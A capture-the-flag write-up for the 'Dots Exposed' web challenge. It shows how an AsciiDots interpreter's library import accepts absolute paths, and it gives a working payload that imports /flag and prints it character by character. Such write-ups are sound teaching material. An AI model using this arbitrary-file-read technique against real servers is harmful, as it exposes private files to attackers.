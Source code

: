 # Dots Exposed

**Category**: web, misc \
**Solves**: 33 \
**Points**: 243 \
**Author**: geolado

Server: https://dots.exposed

## Overview

No code provided at all, just this site:

![ss](ss.png)

After some googling I found this: https://github.com/aaronjanse/asciidots

Turns out it's some weird esolang that's based on ASCII art. Let's try running this:
```dots
.-$"Hello, World!"
```

![h](h.png)

So we can assume that the server is running an AsciiDots interpreter, and the
goal is probably to read some flag file on the server.

## Solution

After reading through the language spec (it's actually a pretty cool esolang),
there doesn't seem to be any obvious way to perform IO (besides to `stdout` and
`stdin`). But it might be possible to abuse library imports:

> Using Libraries
>
> A library can be imported by starting a line with `%!`, followed with the file
> name, followed with a single space and then the character that the library
> defines.

Let's look at the source code:

```python
def _get_path_of_lib_file(self, filename):
    dir_paths_to_try = [
        self.program_dir,
        os.path.join(os.path.dirname(os.path.realpath(__file__)), 'libs'),
        os.path.join(os.path.dirname(os.path.dirname(os.path.realpath(__file__))), 'libs'),
    ]

    for dir_path in dir_paths_to_try:
        path = os.path.join(dir_path, filename)  # Vulnerable to directory traversal
        if os.path.isfile(path):
            return path

    raise RuntimeError('Native library "{}" cannot be found'.format(filename))
```

The interpreter checks for files in a pre-defined set of library directories,
but we can easily load any file by using an absolute path.

However, library files need to conform to the AsciiDots syntax. Or do they? I
tried importing a file that contained nothing but `CTF-BR{test_flag}` to see
what would happen:

```dots
%!/flag a
```

There are no errors, but nothing really happens either. But if I try invoking
the library with `.-a`, it throws an exception:

```
RuntimeError: Warp "a" has no destination
```

Let's look at the source code again:

```python
def _import_lib_file_with_warp_id(self, char_obj_array, filename, warp_id, is_singleton):
    path = self._get_path_of_lib_file(filename)

    with open(path, 'r') as lib_file:
        lib_code = lib_file.read()

    lib_char_obj_array = self.map_from_raw(lib_code)

    # ...

    char_obj_array.extend(lib_char_obj_array)  # This is important
```

The function will try to parse it, but none of will really do anything except
the last line:

```python
char_obj_array.extend(lib_char_obj_array)
```

This `char_obj_array` is set to `self.world.map`, which is just a 2D list
containing a "map" of the world. For example, given this program:

```
/-&
|
\-\ /-\
  | | |
/-/ | \-\
\---/   |
        |
        \-.

/->--
| |
\-/
```

The map will be this (ugly but you get the idea):

```python
[
  ['/', '-', '&']
  ['|']
  ['\\', '-', '\\', ' ', '/', '-', '\\']
  [' ', ' ', '|', ' ', '|', ' ', '|']
  ['/', '-', '/', ' ', '|', ' ', '\\', '-', '\\']
  ['\\', '-', '-', '-', '/', ' ', ' ', ' ', '|']
  [' ', ' ', ' ', ' ', ' ', ' ', ' ', ' ', '|']
  [' ', ' ', ' ', ' ', ' ', ' ', ' ', ' ', '\\', '-', '.']
  []
  ['/', '-', '>', '-', '-']
  ['|', ' ', '|']
  ['\\', '-', '/']
]
```

So when we import a library, it will literally just append the file contents to
the end of the map.

Example program:

```dots
%!flag a

.-a
```

Map:
```python
[
  ['%', '!', 'f', 'l', 'a', 'g', ' ', 'a']
  []
  ['.', '-', 'a']
  ['C', 'T', 'F', '-', 'B', 'R', '{', 'f', 'a', 'k', 'e', '_', 'f', 'l', 'a', 'g', '}']
]
```

We need `a` to be in the map (aside from the line where it's imported) in order
for the library to actually be loaded. To prevent the `Warp "a" has no
destination` error, we can just ... never invoke it by never letting a dot
touch it:

```dots
%!flag a

a
```

So now that we have the flag in the map, how do we exfiltrate it? The answer is pretty simple actually:

```dots
%!flag a

a

.................
|||||||||||||||||
$$$$$$$$$$$$$$$$$
'''''''''''''''''
CTF-BR{fake_flag}  `` This will be appended when the library loads
```

Using single quotes ensures that the character is printed immediately, so even
if the quote is unclosed, the character will still be printed.

Final payload (and make sure there's no newline at the end of the file):

```dots
%!/flag a

a

..................................................
||||||||||||||||||||||||||||||||||||||||||||||||||
$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$
''''''''''''''''''''''''''''''''''''''''''''''''''
```

![f](f.png)

Such a cool challenge 😍
